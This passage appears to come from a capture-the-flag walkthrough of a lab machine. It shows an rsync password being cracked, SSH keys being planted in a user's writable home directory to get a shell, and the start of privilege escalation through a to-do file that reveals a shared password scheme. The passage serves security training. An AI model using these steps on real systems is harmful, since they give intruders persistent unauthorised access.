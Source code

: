 After a while, it will find the password and it is:
> computer

Synchronizing all files in the home directory of _roy_ to our local client:
```
rsync rsync://roy@[dead:beef::250:56ff:feb9:1652]:8730/home_roy rsync/roy -a -v
```

As the configuration file _rsyncd.conf_ shows, the home directory of _roy_ is not only readable but also writable, which means we can upload a SSH key into it.

Creating _.ssh_ folder in _home_roy_:
```
mkdir rsync/roy/.ssh
```

Creating SSH key and modifying permissions accordingly:
```
ssh-keygen -f id_rsa

mv id_rsa.pub authorized_keys

chown 1000:1000 authorized_keys id_rsa

chmod 600 authorized_keys id_rsa
```

Uploading the new files to the box:
```
rsync -apv .ssh rsync://roy@[dead:beef::250:56ff:feb9:1652]:8730/home_roy
```
```
Password:
sending incremental file list
.ssh/
.ssh/authorized_keys
.ssh/id_rsa
```

Login with SSH:
```
ssh -i .ssh/id_rsa roy@10.10.10.156
```

It logs us in as the user _roy_.

## Privilege Escalation

In the home directory of _roy_ is an interesting XML file _/home/roy/.tudu.xml_ that contains tasks like a To-Do list and the following information seems important:
```
(...)
<title>SYSLOG Server</title>
(...)
<todo done="no" collapse="no">
  <title>
    Rework syslog configuration to push all events to the DB
  </title>

(...)

<title>Security</title>
(...)
<todo done="no" collapse="no">
<title>
Change shared password scheme from <secret>@userid to something more secure.
</title>
(...)
```
